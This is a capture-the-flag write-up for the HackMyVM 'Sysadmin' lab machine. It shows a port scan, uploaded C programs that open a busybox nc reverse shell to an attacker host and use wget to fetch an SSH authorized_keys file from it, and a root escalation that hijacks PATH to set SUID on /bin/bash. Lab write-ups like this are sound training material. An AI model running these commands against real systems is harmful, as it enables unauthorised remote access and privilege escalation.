 ```yaml
---
title: Sysadmin
author: VoidReign-U
date: 2025-10-28 00:00:00 +0800
categories:
  - Training platform
  - HackMyVm
tags:
  - HackMyVm
  - Easy
  - web
permalink: /HackMyVm/Sysadmin.html
---
```


<img src="/assets/img/Sysadmin/vm.png" alt="image-machine" />

## Recon

### Port Scanning
```bash
❯ rustscan -a 192.168.1.102
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: http://discord.skerritt.blog         :
: https://github.com/RustScan/RustScan :
 --------------------------------------
I don't always scan ports, but when I do, I prefer RustScan.

[~] The config file is expected to be at "/home/v01d/.rustscan.toml"
[!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
[!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
Open 192.168.1.102:22
Open 192.168.1.102:80
[~] Starting Script(s)
[~] Starting Nmap 7.98 ( https://nmap.org ) at 2025-10-28 17:01 +0200
Initiating Ping Scan at 17:01
Scanning 192.168.1.102 [2 ports]
Completed Ping Scan at 17:01, 0.00s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 17:01
Completed Parallel DNS resolution of 1 host. at 17:01, 0.50s elapsed
DNS resolution of 1 IPs took 0.50s. Mode: Async [#: 1, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating Connect Scan at 17:01
Scanning 192.168.1.102 [2 ports]
Discovered open port 80/tcp on 192.168.1.102
Discovered open port 22/tcp on 192.168.1.102
Completed Connect Scan at 17:01, 0.00s elapsed (2 total ports)
Nmap scan report for 192.168.1.102
Host is up, received syn-ack (0.00019s latency).
Scanned at 2025-10-28 17:01:47 EET for 0s

PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack
80/tcp open  http    syn-ack
```


### i found to ports 22 for ssh and 80 for http


<img src="/assets/img/Sysadmin/pic.png" alt="image-machine" />


### The page allows uploading C files, and by inspecting the compile command, it is clear that standard headers like `stdio.h` or `stdlib.h` cannot be used. However, functions from libraries can still be used if their prototypes are defined manually and the program is linked with the library, or system calls can be used directly to perform operations without relying on any library.

# Compile environment (concise)

Observed compile command:
```bash
gcc -std=c11 -nostdinc -I/var/www/include -z execstack -fno-stack-protector -no-pie test.c -o a.out
```

**Key points**

- `-nostdinc` disables standard header search (`/usr/include`), so `stdio.h`/`stdlib.h` are unavailable by default.
    
- You can still use libc functions if you **manually declare prototypes** and **link libc** (e.g. `-lc`), or you can avoid libc entirely by using `_start` + direct syscalls and compiling with `-nostdlib`.
    
- Flags like `-z execstack`, `-fno-stack-protector`, and `-no-pie` weaken runtime protections (used for testing/exploit dev), do not use in production.
    

**One-line examples**

- Use libc without headers:
    

`int printf(const char *fmt, ...);`

Compile: `gcc ... test.c -o a.out -lc`

- No libc (syscall entry):
    

`void _start(){ /* syscall write/exit */ }`

```c
int system(const char *command);

```
### for that i upload this

```c
int system(const char *command);
int main() {
    system("busybox nc 192.168.1.101 9001 -e /bin/bash"); 
    return 0;
}
```
### i found the user 
```bash
❯ nc -lnvp 9001                                                                                                                               
Listening on 0.0.0.0 9001                                               
id                                              
Connection received on 192.168.1.102 57128                                                                                                                                                                          
uid=1000(echo) gid=1000(echo) groups=1000(echo)
```
### Now The Reverse Shell

#### I tried to run a reverse shell, but the connection stopped after about two seconds. Since I now know the user, I can upload my public SSH key to that user’s home at `/home/echo/.ssh/authorized_keys`.


```
int system(const char *command);
int main() {
    system("mkdir -p ~/.ssh && busybox wget http://192.168.1.101:8000/authorized_keys -O ~/.ssh/authorized_keys "); 
    return 0;
}

```

## Prive Esc

### ssh for echo

```

❯ ssh -l echo 192.168.1.102 -i ~/.ssh/id_ed25519
** WARNING: connection is not using a post-quantum key exchange algorithm.
** This session may be vulnerable to "store now, decrypt later" attacks.
** The server may need to be upgraded. See https://openssh.com/pq.html
Linux Sysadmin 4.19.0-27-amd64 #1 SMP Debian 4.19.316-1 (2024-06-25) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue Oct 28 11:37:19 2025 from 192.168.1.101
echo@Sysadmin:~$ 
```

### first thing try sudo -l

```bash

echo@Sysadmin:~$ sudo -l
Matching Defaults entries for echo on Sysadmin:
    !env_reset, mail_badpass, !env_reset, always_set_home

User echo may run the following commands on Sysadmin:
    (root) NOPASSWD: /usr/local/bin/system-info.sh
echo@Sysadmin:~$ ls -la /usr/local/bin/
total 16
drwxr-xr-x  2 root root 4096 Aug 14 11:07 .
drwxr-xr-x 10 root root 4096 Mar 18  2025 ..
-rwxr-xr-x  1 root root  313 Aug 14 11:07 compile_and_run.sh
-rwxr-xr-x  1 root root  650 Aug 14 09:32 system-info.sh
echo@Sysadmin:~$ ls -lad /usr/local/bin/
drwxr-xr-x 2 root root 4096 Aug 14 11:07 /usr/local/bin/
echo@Sysadmin:~$ cat /usr/local/bin/system-info.sh
#!/bin/bash

#===================================
# Daily System Info Report
#===================================

echo "Starting daily system information collection at $(date)"
echo "------------------------------------------------------"

echo "Checking disk usage..."
df -h

echo "Checking log directory..."
ls -lh /var/log/
find /var/log/ -type f -name "*.gz" -mtime +30 -exec rm {} \;

echo "Checking critical services..."
systemctl is-active sshd
systemctl is-active cron

echo "Collecting CPU and memory information..."
cat /proc/cpuinfo
free -m

echo "------------------------------------------------------"
echo "Report complete at $(date)"
echo@Sysadmin:~$ 

```

### I can run `/usr/local/bin/system-info.sh` with root privilege. I can't modify the script or its directory, but the script calls tools like `free`, `cat`, `systemctl`, `ls`, and `df` without absolute paths — that means PATH hijacking is possible.

```
echo@Sysadmin:~$ echo "chmod +s /bin/bash" > /tmp/free                                                                                   
echo@Sysadmin:~$ export PATH=/tmp:$PATH

echo@Sysadmin:~$ sudo -u root /usr/local/bin/system-info.sh 

echo@Sysadmin:~$ bash -p

bash-5.0# 

```

## Flags

```bash

bash-5.0# cat /root/root.txt 

flag{root-8b8a8b353298f798e3eb8628661617b6}

bash-5.0# cat /home/echo/user.txt 

flag{user-9592f6e02a7abaf9e38c0ef43e868cf3}

bash-5.0# 

```
